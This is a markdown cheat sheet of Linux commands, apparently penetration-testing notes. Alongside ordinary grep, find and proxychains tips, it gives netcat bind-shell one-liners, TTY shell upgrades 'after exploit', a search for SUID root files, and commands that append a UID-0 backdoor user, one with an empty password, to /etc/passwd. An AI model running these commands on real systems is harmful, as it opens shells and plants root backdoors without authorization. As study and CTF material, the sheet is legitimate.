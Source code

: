



<br>

---

## Linux commands / steroids

---

* [commandlinefu.com](http://www.commandlinefu.com/commands/browse/sort-by-votes) - a ton of fun and useful command-line commands
* [explainshell.com](https://explainshell.com/explain?cmd=ssh+-L+127.0.0.1%3A2222%3A192.168.1.3%3A2345+root%40192.168.1.2) - web-site with beautifull linux's MAN integration

<br>

* ***grep*** - `grep ./ -r -A 3 -B 3 -aniPe "search-string"` - also print neighbour lines
    <br> `grep ./ -r -aoiPe "search-string"` - `-o` look up binary files too
    <br> `-i` - ignore case

* ***find*** - `find / -type d -name "*jdk*" -print` (search for directory)
    <br> `find / -perm /6000 -user root -exec ls -ldb {} \;` - search files, owned by root with suid OR guid bit and pass files to `ls`
    <br> find is *incredibly* powerfull (can filter by time, permissions, users, regexp path, depth, ...)

* ***netcat*** - `nc -e /bin/bash -w 3 -nvlp 12344` + `nc localhost 12344` - shell through modern netcat
    <br> `rm /tmp/q;mkfifo /tmp/q;cat /tmp/q|/bin/sh -i 2>&1|nc -l -p 12344 >/tmp/q` + `nc localhost 12344` - shell through netcat
    <br> `nc -zv example.com 1-1000` - scan ports

* *Spawning a TTY shell* (*patching shell after exploit*), this command will "upgrade your miserable os-commanding into regular semi-interactive shell":
    * `python -c 'import pty; pty.spawn("/bin/bash")'`, `/bin/bash -i`, `perl -e 'exec "/bin/sh";'`
    * perl: `exec "/bin/sh";`, ruby: `exec "/bin/sh"`, lua: `os.execute('/bin/sh')`
    * irb: `exec "/bin/sh"`, vi: `:!bash`, vi: `:set shell=/bin/bash:shell`, nmap: `!sh`
    * <small>*thanks for samples to [this article](https://netsec.ws/?p=337)*</small>

* ***Add user***, by adding it into ***`/etc/passwd`***:
    <br> `openssl passwd -1` -> `$1$P31HlF1S$uIgLxnmiwjuC2.iaP8xvJ/` (password: test) ([more](https://ma.ttias.be/how-to-generate-a-passwd-password-hash-via-the-command-line-on-linux/) and [more](https://unix.stackexchange.com/questions/81240/manually-generate-password-for-etc-shadow), ...) (generation with salt: `openssl passwd -1 -salt my_salt my_pass`)
    <br> `echo "username:$1$P31HlF1S$uIgLxnmiwjuC2.iaP8xvJ/:0:0:comment:/root:/bin/bash" >>/etc/passwd`
    <br> *empty password*: `echo "u:$1$$qRPK7m23GJusamGpoGLby/:0:0::/:/bin/sh" >> /etc/passwd`

* ***proxychains*** - `echo "socks4 127.0.0.1 8080" >>/etc/proxychains.conf` `proxychains firefox`
    <br> alternative: ***tsocks*** - `/etc/tsocks.conf`
    <br> [proxifier](https://www.proxifier.com/) - proxychains for windows
* ***iptables*** list rules: `iptables -L -v -n --line-numbers # show all rules` (`-t` tables: nat, filter, mangle, raw, security) ([man iptables (ru)](https://www.opennet.ru/docs/RUS/iptables/#TRAVERSINGGENERAL) - великолепная статья про iptables)
* ***openssl***
